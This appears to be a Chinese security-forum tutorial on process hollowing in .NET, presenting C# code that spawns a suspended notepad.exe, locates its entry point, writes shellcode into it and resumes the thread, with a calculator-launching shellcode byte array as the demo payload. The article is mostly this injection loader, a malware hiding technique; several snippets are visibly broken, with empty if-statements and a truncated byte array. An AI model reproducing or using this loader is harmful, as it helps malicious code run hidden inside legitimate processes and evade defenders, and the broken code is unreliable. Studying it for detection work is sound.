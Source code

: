 

# .NET 隐藏技术之傀儡进程 - 先知社区

.NET 隐藏技术之傀儡进程

- - -

傀儡进程就是修改某进程的内存数据，向内存中写入 Shellcode，并修改进程的执行流程，使其转向执行恶意的 Shellcode。

# 1 相关函数

## ZwQueryInformationProcess

可以获取指定进程的信息等。

```plain
[DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);
```

## ReadProcessMemory

从指定进程的内存中读取数据。

```plain
[DllImport("kernel32.dll", SetLastError = true)]
static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);
```

## ResumeThread

恢复线程的执行。

```plain
[DllImport("kernel32.dll", SetLastError = true)]
private static extern uint ResumeThread(IntPtr hThread);
```

# 2 实现隐藏

要想成功创建傀儡进程，有两个技术要点，首先调用 CreateProcess 函数创建进程，并且设置该进程的标志为 CreateSuspended，表示挂起等待进程，这时主线程处于挂起状态，不会线下执行代码。

```plain
public PROCESS_INFORMATION StartProcess(string path)
{
STARTUPINFO startInfo = new STARTUPINFO();
PROCESS_INFORMATION procInfo = new PROCESS_INFORMATION();
uint flags = CreateSuspended | DetachedProcess ;
if (!CreateProcess((IntPtr)0, path, 0, (IntPtr)0, true, flags, (IntPtr)0, (IntPtr)0,    ref     startInfo, out procInfo))
return procInfo;
}
```

接着调用 ZwQueryInformationProcess 和 ReadProcessMemory 函数定位进程中的模块地址。

```plain
public IntPtr FindEntry(IntPtr hProc)
{
    var basicInfo = new PROCESS_BASIC_INFORMATION();
    uint tmp = 0;
    var success = ZwQueryInformationProcess(hProc, 0, ref basicInfo, (uint)(IntPtr.Size * 6), ref tmp);
    IntPtr readLoc = IntPtr.Zero;
    var addrBuf = new byte[IntPtr.Size];
    if (IntPtr.Size == 4)
    {
        readLoc = (IntPtr)((Int32)basicInfo.PebAddress + 8);
    }
    else
    {
        readLoc = (IntPtr)((Int64)basicInfo.PebAddress + 16);
    }
    IntPtr nRead = IntPtr.Zero;
    if (!ReadProcessMemory(hProc, readLoc, addrBuf, addrBuf.Length, out nRead) || nRead == IntPtr.Zero)
    if (IntPtr.Size == 4)
        readLoc = (IntPtr)(BitConverter.ToInt32(addrBuf, 0));
    else
        readLoc = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
    pModBase_ = readLoc;
    if (!ReadProcessMemory(hProc, readLoc, inner_, inner_.Length, out nRead) || nRead == IntPtr.Zero)
    return GetEntryFromBuffer(inner_);
}
```

最后调用 WriteProcessMemory 函数将我们的 Shellcode 写入到远程挂起的进程中，再使用 ResumeThread 函数恢复主线程，让进程按照修改后的流程继续执行，这样系统就会执行注入的 Shellcode 代码。

```plain
public void MapAndStart(PROCESS_INFORMATION pInfo)
{
    var tmp = MapSection(pInfo.hProcess, PageReadWriteExecute, IntPtr.Zero);
    if (tmp.Key == (IntPtr)0 || tmp.Value == (IntPtr)0)
        throw new SystemException("向目标进程写入失败！");
    remotemap_ = tmp.Key;
    remotesize_ = tmp.Value;
    var patch = BuildEntryPatch(tmp.Key);
    try
    {
        var pSize = (IntPtr)patch.Key;
        IntPtr tPtr = new IntPtr();
        if (!WriteProcessMemory(pInfo.hProcess, pEntry_, patch.Value, pSize, out tPtr) || tPtr == IntPtr.Zero)
    }
    finally
    {
        if(patch.Value != IntPtr.Zero)
            Marshal.FreeHGlobal(patch.Value);
    }
    var tbuf = new byte[0x1000];
    var nRead = new IntPtr();
    if (!ReadProcessMemory(pInfo.hProcess, pEntry_, tbuf, 1024, out nRead))
        throw new SystemException("Failed!");
    var res = ResumeThread(pInfo.hThread);
    if (res == unchecked((uint)-1))
}
```

以运行本地计算器的 Shellcode 为例，在程序主入口创建傀儡进程"notepad.exe"，

```plain
static void Main(string[] args)
{
byte[] shellcode = new byte[193] {
0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52
}
var ldr = new Loader();
ldr.Load("notepad.exe", shellcode);
```

启动测试后成功弹窗，说明 Shellcode 代码成功执行，启动 calc 进程。如图

[![](assets/1706146396-8ae60161abac848d4e658ba7efae278c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123154430-3e48f85e-b9c3-1.png)

